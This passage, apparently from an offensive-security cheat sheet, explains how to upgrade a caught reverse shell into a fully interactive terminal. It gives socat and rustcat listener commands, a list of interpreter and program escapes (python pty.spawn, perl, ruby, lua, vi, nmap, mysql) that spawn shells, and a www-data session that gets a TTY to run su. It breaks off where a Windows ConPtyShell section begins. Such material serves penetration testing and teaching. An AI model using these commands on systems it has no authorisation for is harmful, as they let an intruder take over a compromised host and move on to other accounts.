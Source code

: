 or use `socat` binary to get a fully tty reverse shell

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

Alternatively, `rustcat` binary can automatically inject the TTY shell command.

The shell will be automatically upgraded and the TTY size will be provided for manual adjustment.
Not only that, upon exiting the shell, the terminal will be reset and thus usable.

```bash
stty raw -echo; stty size && rcat l -ie "/usr/bin/script -qc /bin/bash /dev/null" 6969 && reset
```


Spawn a TTY shell from an interpreter

```powershell
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

- vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- nmap: `!sh`
- mysql: `! bash`

Alternative TTY method

```
www-data@debian:/dev/shm$ su - user
su: must be run from a terminal

www-data@debian:/dev/shm$ /usr/bin/script -qc /bin/bash /dev/null
www-data@debian:/dev/shm$ su - user
Password: P4ssW0rD

user@debian:~$ 
```

## Fully interactive reverse shell on Windows
The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.

**ConPtyShell uses the function [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**


Server Side:

